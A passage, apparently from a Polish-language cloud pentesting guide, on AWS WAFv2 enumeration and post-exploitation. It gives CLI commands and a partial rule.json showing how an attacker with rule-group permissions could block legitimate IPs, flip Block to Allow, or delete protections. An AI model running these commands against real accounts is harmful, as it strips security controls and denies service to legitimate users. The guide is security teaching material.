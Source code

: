```bash
aws wafv2 get-sampled-requests --web-acl-arn <value> --rule-metric-name <value> --time-window <value> --max-items <1-500> --scope <value>

## Obtains the web ACL capacity unit (WCU) requirements for a specified scope and ruleset
aws wafv2 check-capacity --scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1> --rules <value>

## List of available releases for the AWS WAFv2 mobile SDK
aws wafv2 list-mobile-sdk-releases --platform <IOS | ANDROID>
## Retrieves information for the specified mobile SDK release
aws wafv2 get-mobile-sdk-release --platform <value> --release-version <value>

```
### Post Exploitation / Bypass

> [!TIP]
> Z perspektywy atakującego, ta usługa może pomóc atakującemu zidentyfikować zabezpieczenia WAF i ekspozycje sieciowe, które mogą pomóc mu w kompromitacji innych stron.
>
> Jednak atakujący może być również zainteresowany zakłóceniem tej usługi, aby strony nie były chronione przez WAF.

W wielu operacjach usuwania i aktualizacji konieczne byłoby podanie **tokena blokady**. Token ten jest używany do kontroli współbieżności nad zasobami, zapewniając, że zmiany nie są przypadkowo nadpisywane przez wielu użytkowników lub procesy próbujące jednocześnie zaktualizować ten sam zasób. Aby uzyskać ten token, można wykonać odpowiednie operacje **list** lub **get** na konkretnym zasobie.

#### **`wafv2:CreateRuleGroup`, `wafv2:UpdateRuleGroup`, `wafv2:DeleteRuleGroup`**

Atakujący mógłby skompromitować bezpieczeństwo dotkniętego zasobu poprzez:

- Tworzenie grup reguł, które mogłyby na przykład blokować ruch z legalnych adresów IP, powodując odmowę usługi.
- Aktualizowanie grup reguł, mając możliwość modyfikacji ich działań na przykład z **Block** na **Allow**.
- Usuwanie grup reguł, które zapewniają krytyczne środki bezpieczeństwa.
```bash
# Create Rule Group
aws wafv2 create-rule-group --name <value> --capacity <value> --visibility-config <value> \
--scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1> [--rules <value>] [--description <value>]
# Update Rule Group
aws wafv2 update-rule-group --name <value> --id <value> --visibility-config <value> --lock-token <value>\
--scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1> [--rules <value>] [--description <value>]
# Delete Rule Group
aws wafv2 delete-rule-group --name <value> --id <value> --lock-token <value> --scope <REGIONAL --region=<value> | CLOUDFRONT --region=us-east-1>
```
Poniższe przykłady pokazują grupę reguł, która zablokowałaby legalny ruch z określonych adresów IP:
```bash
aws wafv2 create-rule-group --name BlockLegitimateIPsRuleGroup --capacity 1 --visibility-config SampledRequestsEnabled=false,CloudWatchMetricsEnabled=false,MetricName=BlockLegitimateIPsRuleGroup --scope CLOUDFRONT --region us-east-1 --rules file://rule.json
```
Plik **rule.json** wyglądałby następująco:
```json
[
{
"Name": "BlockLegitimateIPsRule",
"Priority": 0,
"Statement": {
"IPSetReferenceStatement": {
```